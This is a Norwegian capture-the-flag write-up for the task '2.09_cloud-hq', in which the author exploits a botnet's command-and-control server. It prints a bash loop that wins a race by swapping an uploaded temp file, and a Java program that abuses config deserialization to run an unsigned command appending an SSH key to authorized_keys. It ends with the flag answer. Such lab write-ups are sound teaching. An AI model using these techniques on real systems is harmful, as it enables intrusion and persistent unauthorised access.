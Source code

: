 # 2.09_cloud-hq

Her var vi to stk som holdt på sammen, forrige flagg hinter om å se på test-3. Den er aktiv. Ser jeg kan sende `cmd_sysinfo` til den via admin api på servern så kjører følgende kommando:

```bash
curl -F 'file=@./cmd_sysinfo' -v localhost/f52e6101/DEADBEEFDEADBEEF/commands 
# Venter 2 minutter til den har kjørt og sender output og så:
curl localhost/f52e6101/DEADBEEFDEADBEEF/checkins
```

Der ligger `cmd_sysinfo` som kjører `hostname;id;ip a`

```bash
Executing command 'hostname;id;ip a':
cloud-hq-79
uid=1000(oper) gid=1000(oper) groups=1000(oper)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
4753: eth0@if4754: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1450 qdisc noqueue state UP group default 
    link/ether 02:42:0a:01:16:c6 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.22.198/27 brd 10.1.22.223 scope global eth0
       valid_lft forever preferred_lft forever
```

Så neste target er `oper@cloud-hq-79`. Der er SSH åpent men vi får ikke gjort noe mer, så jeg prøver masse forskjellige ting men ender opp med å forstå at man skal sende en payload til klienten via botnet.

Ser også i Python servern at den laster opp filen i `/tmp/.../tmpXXXXX` og sletter den. Klarer å lage et script som looper og ser den nye fila. Men forstår ikke helt meningen med det.

Etter flere dager med sjekking hører jeg med Roys om han vet noe, han nevner at vi ikke er på villspor med denne filen. Så jeg prøver vider, filen vi laster opp blir lagret i `/tmp/.../tmpXXXXX`. Og ser så at den blir lastet en gang for å verifiseres, og en ny gang for å addes til database. Så om vi bytter ut filen så kan vi få opp usignert data. Så kjør dette scriptet mens vi laster opp en gyldig kommando så vil den lastes opp for levering til tjenesten. 

Laster jeg opp en ugyldig fil krasjer den med stacktrace som den senere leverer til `/checkins`. Her kjører jeg følgende scripts mens jeg sender en config fil som jeg fant i `/commands` api for ´DEADBEEFDEADBEEF`. Noe tyder på at kanskje jeg skal bruke config filer allerede. Men tanken blir glemt.

```bash
replacementFile=/home/archive/filename
while true; do
  file=$(ls /tmp/.../tmp* 2> /dev/null)
  if [ $? -eq 0 ]; then
    cp -f $replacementFile $file
    chmod 777 $file
    echo "Intercepted $file"
    ls -lah /tmp/.../
    sleep 1
  fi
done
```

Får da at den interceptet filen og etter 2 minutter får jeg følgende i databasen. Og det stemmer, det var en config fil jeg byttet ut med. 

```java
+--------------------
| 2023-01-05 13:07:09

java.lang.ClassCastException: class utils.Config cannot be cast to class commands.Command (utils.Config and commands.Command are in unnamed module of loader 'app')
        at Client.checkInWithC2(Client.java:49)
        at Client.loopForever(Client.java:65)
        at Client.main(Client.java:106)
```

Så nå vet vi hvordan vi kan sende kommandoer til servern. Nå må vi bare finne utav hvordan vi kan gjøre de gylidge. Prøvde å modifisere eksisterende `cmd_sysinfo` med `whoami` som value. Men det hjelper ikke, feiler på signering. 

Har laget en custom cmd_key som skriver key til authorized_keys. Men for å få kjøre denne må vi se litt dypere. Dennne [snyk](https://snyk.io/blog/serialization-and-deserialization-in-java/) artikkelen snakker om farene med deserialisering i java. 

Med sitatet som Decoy så:

> Also, note that if an application accepts serialized objects, the object is deserialized before being cast to the desired type.

Så om vi sender et Config objekt vil det bli deserialisert først som det, og config objektet har en `readObject` funksjon som blir kjørt ved deserialisering. Denne funksjonen vil ta alle `pendingCommands` i objektet og legge i en kø for kjøring. Dette blir ikke verifisert. Etter mye loking fikk jeg denne enkle java filen som brukte de eksisterende klientklassene for å lage filen [CreateCustomConfig.java](CreateCustomConfig.java):


```java
import commands.*;
import utils.Config;

public class CreateCustomConfig {

    public static void main(String[] args) {
        Config cfg = new Config();
        cfg.id = "DEADBEEFDEADBEEF";
        cfg.sleepDuration = 10;
        cfg.serverURL = "http://shady-aggregator.utl/f52e6101/";
        
        Execute cmd = new Execute();
        cmd.value = "echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILGlOA7NSrkCKybk4G/Ss+l/bhGua5j2xXBL3mEX7uq+ login@login >> ~/.ssh/authorized_keys";
        cfg.pendingCommands.add(cmd);
        
        cfg.persist();
    }

}
```

Legger denne inn i client kilden fra `2.04_anvilnotes_source` og bygger den og får en java class fil jeg kan kjøre. Kjører denne og får .config i mappa som jeg da sender via botnet servern og etter to minutter har jeg ssh tilgang til boksen og finner flagget i en fil.

```
Kategori: 2. Oppdrag
Oppgave:  2.09_cloud-hq
Svar:     fbebd09d4e919c682ddca62282e271d4
Poeng:    10

Det er noe veldig tilfredstillende med å utnytte sårbarheter i skadevare.

Dette ser ut som operatøren bak angrepet mot kraftverket. Jeg legger ssh-nøkkelen hans i oppdragsmappen din mens du går gjennom koden som ligger her.

Ny fil: /home/login/2_oppdrag/sshkey_cloud-hq
```
